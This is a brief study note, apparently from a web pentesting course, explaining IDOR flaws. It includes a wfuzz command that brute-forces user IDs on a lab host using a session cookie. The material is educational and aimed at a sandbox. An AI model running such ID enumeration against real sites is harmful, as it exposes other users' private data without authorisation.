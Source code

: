 # IDOR Insecure Direct Object Referencing

**_Static File_ IDOR** - Being able to increment or decrement IDs  is a tell-tale sign of Insecure Direct Object Referencing. 
We're interested in any values in the URL segments that can be referenced, iterated, or brute-forced to exfiltrate information.

_Insecure Database Object Referencing_ or _"ID-Based" IDOR_  - iterate database entity id

brute force user ids
```bash
wfuzz -c -z file,/usr/share/seclists/Fuzzing/5-digits-00000-99999.txt --hc 404 --hh 2873 -H "Cookie: PHPSESSID=ce1668e19863bc2784c76d8737a7e73c" http://idor-sandbox:80/user/?uid=FUZZ
```

## References
1. web200.Insecure Direct Object Referencing
2.   (OWASP, 2021), [https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html#introduction](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html#introduction) [↩︎](https://portal.offsec.com/courses/web-200/books-and-videos/modal/modules/insecure-direct-object-referencing/insecure-direct-object-referencing#fnref1)
3. (Portswigger, 2021), https://portswigger.net/web-security/access-control/idor ↩︎
